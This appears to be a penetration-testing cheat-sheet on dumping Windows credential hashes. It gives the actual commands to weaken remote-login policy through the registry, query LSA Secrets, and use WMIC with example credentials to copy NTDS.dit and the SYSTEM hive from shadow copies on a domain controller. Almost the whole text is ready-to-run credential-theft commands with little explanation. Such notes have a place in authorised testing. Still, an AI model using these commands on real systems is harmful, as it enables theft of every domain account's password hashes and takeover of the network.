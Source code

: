 # Getting local hashes

## Enable remote admin login

You might find that you need to enable this registry file to allow remote admin authentication

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /V LocalAccountTokenFilterPolicy /T REG_DWORD /F /D 1
```

## Secrets

```
reg query HKLM\Security\Policy\Secrets
```

## WMIC

Note, remove creds to run locally.

```
wmic /node:dc /user:leon /password:password1 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"

wmic /node:dc /user:domain\leon /password:pentest! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"

wmic process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
```
